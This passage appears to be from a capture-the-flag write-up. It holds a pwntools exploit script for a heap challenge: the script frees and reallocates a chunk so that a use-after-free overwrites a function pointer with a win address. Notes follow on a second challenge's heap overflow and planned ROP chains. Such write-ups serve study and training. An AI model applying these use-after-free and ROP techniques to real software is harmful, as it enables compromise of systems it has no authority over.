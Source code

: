 ```
if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
win = 0x804950c
def create():
    p.recvuntil(b"): ", drop=True)
    p.sendline(b'c')

def delete(id):
    p.recvuntil(b"): ", drop=True)
    p.sendline(b'd')
    p.recvuntil(b"id: ", drop=True)
    p.sendline(id)

def set(id, input):
    p.recvuntil(b"): ", drop=True)
    p.sendline(b's')
    p.recvuntil(b"id: ", drop=True)
    p.sendline(id)
    p.recvuntil(b"question: ", drop=True)
    p.sendline(input)

def ask(id):
    p.recvuntil(b"): ", drop=True)
    p.sendline(b'a')
    p.recvuntil(b"id: ", drop=True)
    p.sendline(id)

create()
delete(b'0')
create()
set(b'1', p32(win))
ask(b'0')

p.interactive()
```

ezpz2
============================================================
Flag:
General overview of problems faced
----------------------------------------------------------
No win function
No double free
The fgets now read reads 0x78 so we can now overflow so we can overflow one question to overwrite the second question's chunk.
Need to figure out libc version to do some rop chains.
Script/Command used
----------------------------------------------------------------
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

```